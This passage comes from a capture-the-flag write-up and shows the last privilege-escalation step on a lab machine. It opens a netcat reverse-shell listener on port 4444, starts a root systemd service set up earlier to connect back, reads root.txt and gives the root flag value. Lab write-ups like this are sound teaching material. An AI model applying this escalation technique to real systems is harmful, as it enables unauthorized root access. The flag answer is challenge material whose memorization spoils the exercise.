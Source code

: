 On another terminal in our kali we need to start listening on the port we have previously set in root.service
```bash
nc -lvnp 4444
```
  <img src="/images/vulnv/vuln17.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Finally we need to start the service and we will get our shell in kali terminal
```bash
systemctl start root.service
```
  <img src="/images/vulnv/vuln18.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Finally we acces the root directory and extract the flag
```bash
cd root
ls
cat root.txt
```

  <img src="/images/vulnv/vuln19.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q2: What is the root flag value?

#### Answer: a58ff8579f0a9270368d33a9966c7fd5